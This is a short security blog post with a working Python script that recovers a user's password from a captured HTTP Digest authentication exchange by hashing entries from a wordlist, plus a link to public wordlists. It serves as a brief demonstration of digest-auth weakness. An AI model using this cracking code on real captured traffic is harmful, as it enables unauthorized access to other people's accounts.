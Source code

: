 ```yaml
---
title: "HTTP Authentication Dictionary Attack"
published: 2018-05-21T07:59:00+12:00

tags: [ "infosec", "dev",]
---
```


Here's a little snippet of Python code to crack HTTP digest authentication, getting a user's password given information from a captured packet and a wordlist.

```py
import hashlib

extracted = 'known_auth_hash'
nonce = 'known_nonce_hash'

user = 'known_username'
realm = 'known_realm'
uri = '/image.png'
method = 'GET'

with open('words.txt', 'r') as file:
  for line in file:
    line = line.strip()

    ha1 = hashlib.md5((user+':'+realm+':'+line).encode('utf-8')).hexdigest()
    ha2 = hashlib.md5((method+':'+uri).encode('utf-8')).hexdigest()
    response = hashlib.md5((ha1+':'+nonce+':'+ha2).encode('utf-8')).hexdigest()

    if response == extracted:
      print('success! word was:', line)
      break
```

You can find some good wordlists [right here](https://github.com/danielmiessler/SecLists).
